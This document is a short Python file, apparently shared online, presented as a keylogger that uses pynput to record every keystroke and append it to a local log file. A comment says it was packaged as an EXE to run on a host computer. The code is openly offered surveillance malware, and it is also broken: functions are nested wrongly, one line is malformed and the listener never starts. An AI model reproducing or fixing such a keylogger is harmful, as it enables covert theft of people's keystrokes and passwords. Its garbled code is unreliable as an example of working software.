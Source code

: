 # Random Keylogger
# I converted this into an EXE so all you gotta do is download this and open it on your host computer







from turtle import onrelease
import pynput
from pynput.keyboard import Key, Listener

count = 0
keys = []

def on_press(key):
    global keys, count
    keys.append(key)
    count += 1
    print("{0} pressed" .format (key))

    if count >= 1000:
        count = 0
        write_file(keys)
        keys = {}


    def write_file(keys):
        with open("log.txt", "a") as f:
            for key in keys:
                k = str(key .replace)()
                if k.find("space") >0:
                    f.write('\n')
                elif k.find("key") == -1:
                    f.write(k) 
          
        

    def on_release(key) : 
        if key == Key.esc:
            return False
